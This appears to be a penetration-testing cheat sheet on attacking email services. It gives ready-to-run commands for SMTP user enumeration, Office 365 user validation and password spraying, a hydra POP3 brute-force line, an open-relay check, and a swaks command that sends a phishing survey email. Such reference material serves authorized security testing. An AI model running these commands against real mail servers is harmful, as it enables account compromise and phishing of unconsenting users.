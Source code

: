 #  Email Services
## Enumeration
 * [MXToolbox](https://mxtoolbox.com/)
 * [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)

```
host -t MX $rhost
dig mx $rhost | grep "MX" | grep -v ";"
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 $rhost
```

To automate our enumeration process, we can use a tool named smtp-user-enum. We can specify the enumeration mode with the argument -M followed by VRFY, EXPN, or RCPT, and the argument -U with a file containing the list of users we want to enumerate. Depending on the server implementation and enumeration mode, we need to add the domain for the email address with the argument -D. Finally, we specify the target with the argument -t.

```
smtp-user-enum -M RCPT -U userlist.txt -D $domain_target -t $mail_server
```

## Cloud Enumeration
 * [o365spray](https://github.com/0xZDH/o365spray)

```
python3 o365spray.py --validate --domain $domain_target
python3 o365spray.py --enum -U users.txt --domain $domain_target  
```

## Password Attacks
 * [MailSniper](https://github.com/dafthack/MailSniper)
 * [CredKing](https://github.com/ustayready/CredKing)
 * [o365spray](https://github.com/0xZDH/o365spray)


```
python3 o365spray.py --spray -U usersfound.txt -p 'SOME_PASSWORD' --count 1 --lockout 1 --domain $domain_target
hydra -L users.txt -p PASSWORD -f $rhost pop3
```
## Open Relay

```
nmap -p25 -Pn --script smtp-open-relay $rhost
```
Next, we can use any mail client to connect to the mail server and send our email.
```
swaks --from $from --to $to --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server $rhost
```
